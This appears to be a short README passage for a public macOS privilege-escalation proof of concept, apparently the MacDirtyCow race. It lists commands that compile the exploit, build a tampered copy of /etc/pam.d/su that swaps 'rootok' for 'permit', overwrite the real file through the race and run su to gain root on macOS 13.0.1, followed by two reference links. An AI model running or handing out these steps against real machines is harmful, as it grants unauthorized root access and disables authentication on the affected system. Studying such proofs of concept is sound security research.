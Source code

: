 ### Get root on macOS 13.0.1
```
clang -o switcharoo vm_unaligned_copy_switch_race.c
sed -e "s/rootok/permit/g" /etc/pam.d/su > overwrite_file.bin
./switcharoo /etc/pam.d/su overwrite_file.bin
su
```

### References
* https://worthdoingbadly.com/macdirtycow/
* https://github.com/zhuowei/MacDirtyCowDemo

